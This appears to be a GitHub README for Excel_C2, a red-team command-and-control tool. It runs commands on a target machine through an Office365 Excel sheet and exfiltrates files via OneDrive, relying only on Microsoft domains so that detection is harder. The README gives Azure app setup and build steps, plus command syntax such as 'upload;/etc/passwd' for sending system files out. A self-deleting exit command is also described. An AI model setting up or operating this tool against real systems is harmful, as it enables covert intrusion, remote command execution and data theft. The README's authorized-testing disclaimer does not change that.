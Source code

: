 # Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

## Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Microsoft's domains to make detection more difficult.

## Requirements

- Azure AD login with permissions to:
  - Register Application
    - Apply Delegated and Application permissions for Files.ReadWrite.All
  - Grant admin consent confirmation
- O365 Subscription

## Set up

1. **Get User ID**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    1. Select **Users** on the left navigation panel
    1. Select your user and note the **Object ID**.  This will be used for the `userId` (or `USER_ID` environment variable)
      ![User Id](img/user-id.png)

1. **Register an Azure Portal App**
    1. Expand **Azure Active Directory** on the left navigation panel
    1. Expand **Applications**
    1. Select **App registrations** \
      ![App registrations](img/aad-portal-app-registrations.png)
    1. Click the  **New Registration** button \
      ![New registration](img/new-registration.png)
    1. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button \
      ![New application](img/new-application.png)
    1. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively (or `CLIENT_ID` and `TENANT_ID` environment variables) \
      ![App IDs](img/app-ids.png)
    1. Click **API permissions** \
      ![API permissions](img/api-perms.png)
    1. Click the **Add a permission** button \
      ![Add permission](img/add-perm-button.png)
    1. Click the **Microsoft Graph** button \
      ![Add MS Graph](img/add-graph-perm.png)
    1. Click the **Application permissions** button \
      ![Application Permissions](img/app-perm.png)
    1. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button \
      ![File Permissions](img/files-perm.png)
    1. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    1. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner \
      ![Grant Consent](img/grant-consent.png)
    1. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button \
      ![New Secret](img/new-secret.png)
    1. Enter a description and click the **Add** button \
      ![Add Secret](img/add-secret.png)
    1. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field (or `CLIENT_SECRET` environment variable)\
      ![Copy Secret](img/copy-secret.png)

1. **Create the Excel Spreadsheet**

    1. Login with the same account to [OneDrive](https://onedrive.live.com)
    1. Click on the arrow next to the **New** button and select **Excel workbook**.  The file name will be used for the `fileName` field (or `FILE_NAME` environment variable)\
      ![New Workbook](img/new-excel.png)

1. **Setup Environment**

    There are 3 different ways to configure the credentials for the app.
    1. You can hardcode the values in the root.go file before building
    1. You can set environment variables that will be read during the execution of the application
    1. You can pass the values as flags to the application when starting

    ***Below are the flags for the different methods:***

    | Credential | root.go Variable | Environment Variable | Comamnd Flag |
    | --- | --- | --- | --- |
    | Tenant ID from Azure App #9 | tenantId | TENANT_ID | tenant |
    | Client ID from Azure App #9 | clientId | CLIENT_ID | client |
    | Client Secret from Azure App #19 | clientSecret | CLIENT_SECRET | secret |
    | User Id from Azure App #3 | userId | USER_ID | user |
    | Filename from Excel Spreadsheet #2 | fileName | FILE_NAME | file |

1. **Build executable**

    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```none
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --file <fileId> --user <userId> --verbos <true|false>
    ```

   > Note: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

### Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsfot OneDrive
- Upload files (data exfiltration) using Microsft OneDrive
- Exit

#### Command execution

The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

#### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is:

 ```none
upload;<remote path>
 ```

Example:

 ```none
upload;/etc/passwd
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is:

 ```none
download;<OneDrive file name>;<remote path>
 ```

Example:

 ```none
download;down.txt;/home/user/downloaded.txt
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

> NOTE: From *os* documentation:
> *If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow

![Workflow](img/workflow.png)

### Demo

![Demo](img/demo.gif)

### Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

### Inspired from

[https://github.com/looCiprian/GC2-sheet](https://github.com/looCiprian/GC2-sheet)

### Support the project

Pull request

